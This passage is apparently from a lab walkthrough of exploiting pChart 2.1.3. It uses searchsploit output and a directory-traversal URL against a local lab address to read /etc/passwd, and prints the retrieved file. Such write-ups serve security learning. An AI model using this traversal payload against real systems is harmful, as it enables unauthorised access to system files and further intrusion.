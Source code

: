 Low Privilege Exploitation
--------------------------

### Vulnerability Identification (Port 80)

Using searchsploit to find appropriate vulnerability in exploit-db database.

```bash
root@kali:~# searchsploit pchart
--------------------------------------- ----------------------------------------
 Exploit Title                         |  Path
                                       | (/usr/share/exploitdb/)
--------------------------------------- ----------------------------------------
pChart 2.1.3 - Multiple Vulnerabilitie | exploits/php/webapps/31173.txt
--------------------------------------- ----------------------------------------
```

Identifying exploit’s patch and copying it to the clipboard.
```bash
root@kali:~# searchsploit -p 31173
  Exploit: pChart 2.1.3 - Multiple Vulnerabilities
      URL: https://www.exploit-db.com/exploits/31173
     Path: /usr/share/exploitdb/exploits/php/webapps/31173.txt
File Type: HTML document, ASCII text, with CRLF line terminators

Copied EDB-ID #31173's path to the clipboard.
```

The multiple vulnerabilities are Directory Traversal and Reflected XSS.

In this case Directory Traversal is what will be exploited.

### Local File Inclusion

As per exploit directory traversal is executed in the following fashion:

<http://192.168.20.148/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd>

The exploit yields the following:
```
# $FreeBSD: release/9.0.0/etc/master.passwd 218047 2011-01-28 22:29:38Z pjd $
#
root:*:0:0:Charlie &:/root:/bin/csh
toor:*:0:0:Bourne-again Superuser:/root:
daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin
operator:*:2:5:System &:/:/usr/sbin/nologin
bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin
tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin
kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin
games:*:7:13:Games pseudo-user:/usr/games:/usr/sbin/nologin
news:*:8:8:News Subsystem:/:/usr/sbin/nologin
man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin
sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin
smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin
mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin
bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin
proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin
_pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin
_dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin
uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico
pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin
www:*:80:80:World Wide Web Owner:/nonexistent:/usr/sbin/nologin
hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin
nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
mysql:*:88:88:MySQL Daemon:/var/db/mysql:/usr/sbin/nologin
ossec:*:1001:1001:User &:/usr/local/ossec-hids:/sbin/nologin
ossecm:*:1002:1001:User &:/usr/local/ossec-hids:/sbin/nologin
```